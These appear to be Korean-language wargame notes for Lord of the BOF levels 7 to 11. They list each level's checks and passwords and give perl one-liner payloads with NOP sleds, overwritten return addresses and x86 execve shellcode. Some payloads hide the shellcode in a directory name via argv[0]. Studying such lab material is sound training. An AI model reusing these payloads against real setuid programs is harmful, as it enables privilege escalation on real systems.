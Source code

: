 (07) LEVEL7: darkelf / kernel crashed
ORGE 1. argv[0]이 77이어야 함 2. argv[1][47]="bf"이어야 함 3. argv[1][48]~ 사용불가. 4. 환경변수 사용 불가, 5. 버퍼 지움.(argv[1]도 사용불가) 문제점. gdb로 테스트시에는 /home/darkelf/(77에서 총 14자 뺀 63개짜리로 테스트해야함)      단, 실행시에는 ."/" x72 orge 해서 테스트 $(perl -e 'print "." . "/"x72')orge $(perl -e 'print "\x90"x44 . "\x24\xfb\xff\xbf"') $(perl -e 'print "\x90"x10000 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')

(08) LEVEL8: orge / timewalker
TROLL
1. argc=2
2. memset environ(환경변수)
3. argv[1][47]="\xbf"
4. memset buffer 5. memset argv[1]
해결책: argv[0]을 사용하는 수 밖에 없음!
            1. 심볼릭링크 이용하여 파일이름을 셸코드로 만들기
            2. 경로 이름을 셸코드로 만들기
1. 파일이 생성되지 않음
2. 셸코드 내의 2f가 "/"를 가리켜 생성에 오류가 생김->mkdir -p옵션으로 하위디렉토리까지 생성
mkdir -p aaaa$(perl -e 'print "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
r $(perl -e 'print "a"x47 . "\xbf"') 실행할때 ./aaaa$(perl -e 'print "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')/../troll 이런식으로 perl로 경로를 써줘야 해결이 됨.
정확한 이유는 모르겠음.

(09) LEVEL9: troll / aspirin
VAMPIRE
1. argc<=1
2. argv[1][47]=="\xbf" 3. argv[1][47]!="\xff"
./vampire $(perl -e 'print "a"x44 . "\x88\xd5\xfe\xbf" . "\x90"x10000') $(perl -e 'print "\x90"x10000 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') bf/ff가 막혀있으므로 fe부터 넣어서 ff까지 채워줌.(이론상으로는 65535개)
argv[2], argv[3] .. 계속 넣어주어 해결함.

(10) LEVEL10: vampire / music world
SKELETON

1. argc<=1 2. memset environ(환경변수)
3. argv[1][47]= "\xbf" 4. argv[1]길이<=48
5. memset buffer
6. memset argv[0],[1]...
argv[0],[1]다 지워짐.
일단 argv[0]을 이용해봄.
==> argv[0]이 지워지기는 하나 kernel 위에 남아있는 영역이 있음
mkdir -p ~~ ./zzzz$(perl -e 'print "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')/../../../aaaaaaaaaa $(perl -e 'print "a"x44 . "\x10\xff\xff\xbf"') 디렉토리 이름을 셸코드로~ argv를 다 지우지만 남아있는 영역이 있음. 그 주소(bf/ff/ff/10)를 가리키면 깨짐


(11) LEVEL11 skeleton / shellcoder
1. argc>=2
2. argv[1][47]="\xbf"
3. memset buffer
4. memset all argv영역
